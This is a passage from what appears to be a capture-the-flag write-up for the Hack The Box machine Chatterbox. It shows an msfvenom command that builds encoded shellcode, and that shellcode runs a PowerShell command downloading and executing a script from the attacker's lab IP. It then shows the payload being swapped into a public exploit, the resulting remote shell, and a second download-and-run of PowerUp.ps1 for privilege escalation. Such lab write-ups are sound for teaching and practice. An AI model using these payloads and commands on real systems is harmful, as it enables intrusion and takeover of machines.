 ```
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('[http://10.10.14.7:5555/shell.ps1'](http://10.10.14.7:5555/shell.ps1'))" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

We get back the following result.

```
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 684 (iteration=0)
x86/unicode_mixed chosen with final size 684
Payload size: 684 bytes
Final size of python file: 3330 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
.....[redacted]
```

Good! The payload size is 684 bytes, so it’s within the limit. Copy the payload and add it in place of the payload included in the exploit.

Start up a python server in the directory that the PowerShell script resides in.

```
python -m SimpleHTTPServer 5555
```

Run the exploit.

```
root@kali:~/Desktop/htb/chatterbox# python 36025.py
---->{P00F}!
```

We get a PowerShell shell!

![](../img/Chatterbox Writeup wo Metasploit/1_BqwL-qWlNezkn5G9g4eKFw.png)

We’ll use the [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) script to determine if there are any misconfigurations that lead to privilege escalation.

Upload and run the script on the target machine.

```
PS C:\Users\Alfred\Desktop> iex(new-object net.webclient).downloadstring('[http://10.10.14.7:5555/PowerUp.ps1'](http://10.10.14.7:5555/PowerUp.ps1'))

PS C:\Users\Alfred\Desktop> Invoke-AllChecks
```
